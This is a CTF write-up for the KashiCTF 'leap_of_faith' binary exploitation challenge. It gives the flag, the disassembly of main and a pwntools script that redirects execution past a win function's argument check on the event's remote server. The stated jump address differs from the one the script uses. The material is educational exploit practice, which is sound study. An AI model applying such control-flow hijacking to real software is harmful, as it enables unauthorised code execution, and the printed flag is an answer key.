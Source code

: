 ```yaml
---
title: "leap_of_faith"
category: Binary Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
flag: KashiCTF{m4r10_15_fu_w17H_C_m70BEEnn}
---
```

> I liked playing Super Mario just for jumping from one place to another. Can you do that?

---

In the given challenge we are prompted to enter one address where we wish to jump to, after which it finish executing. There's a win function which checks the argument passed, if the conditions are satisfied, it open a flag and prints the content, below is the pseudocode

As you may notice we can simply jump to the line where it opens the flag and skip the argument check, the address for that is 0x4011ba

However when we do this on nc, we get nothing, The issue lies with fgets, which reads the content of file stream into an local variable, probably due to some stack size issue because the flag size might override the return address. To remedy that we notice in the disassembly of main

```asm
.text:000000000040125A ; int __cdecl main(int argc, const char **argv, const char **envp)
.text:000000000040125A                 public main
.text:000000000040125A main            proc near               ; DATA XREF: _start+1D↑o
.text:000000000040125A
.text:000000000040125A var_8           = qword ptr -8
.text:000000000040125A
.text:000000000040125A ; __unwind {
.text:000000000040125A                 push    rbp
.text:000000000040125B                 mov     rbp, rsp
.text:000000000040125E                 sub     rsp, 10h
.text:0000000000401262                 lea     rdi, aILikeToJumpWhe ; "i like to jump where ever you say \ngiv"...
.text:0000000000401269                 mov     eax, 0
.text:000000000040126E                 call    _printf
.text:0000000000401273                 lea     rax, [rbp+var_8]
.text:0000000000401277                 mov     rsi, rax
.text:000000000040127A                 lea     rdi, aP         ; "%p"
.text:0000000000401281                 mov     eax, 0
.text:0000000000401286                 call    ___isoc99_scanf
.text:000000000040128B                 mov     rax, [rbp+var_8]
.text:000000000040128F                 sub     rsp, 10h
.text:0000000000401293                 jmp     rax
.text:0000000000401293 main            endp
```

we can jump to 0x40125e where it does sub rsp,0x10 and continue executing the instructions till it asks for an address to jump to again.

This could be used to increase the stack size for the flag to fit. By making a script which bruteforces the number of times we might have to jump to 0x40125e instruction and finally jump to 0x4011ba to get the flag

```py
from pwn import *

binary = './chall'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
# r = process(binary)
r = remote('kashictf.iitbhucybersec.in', 45935)

r.recvuntil(b'i like to jump where ever you say \r\ngive me the address to go : ')
for i in range(5):
    r.sendline(hex(0x401273))

r.sendline(hex(0x4011BA))
r.interactive()
```
